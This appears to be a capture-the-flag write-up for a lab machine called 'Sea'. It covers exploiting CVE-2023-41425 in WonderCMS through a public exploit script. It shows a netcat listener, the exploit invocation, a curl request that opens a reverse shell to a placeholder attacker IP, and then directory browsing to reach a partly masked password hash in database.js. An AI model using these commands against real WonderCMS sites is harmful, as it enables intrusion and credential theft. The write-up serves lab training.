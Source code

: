 * [https://github.com/prodigiousMind/CVE-2023-41425/tree/main](https://github.com/prodigiousMind/CVE-2023-41425/tree/main)
  * CVE for XSS attack
  * Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.
  * get the exploit.py

### Exploitation

* nc -nlvp \<ATTACKER\_PORT>
* python3 exploit.py http://sea.htb/themes \<ATTACKER\_IP> \<ATTACKER\_PORT>
* curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=\<ATTACKER\_IP>\&lport=\<ATTACKER\_PORT>'
  * we obtained the revshell

<figure><img src=".gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

### User flag

* cd home&#x20;
  * cd geo -> forbidden
  * cd amay && ls
    * cat user.txt -> forbidden
* whoami
  * www-data

Our goal is to obtain the PW for user to obtain user flag...lets search the folders

* cd var
  * cd www
    * cd sea
      * ls
        * cd data
          * ls
            * cat database.js
              * ```
                "password": "$2y$1XXXXXXXXXXXXXXXXXXXXXXXX",
                ```

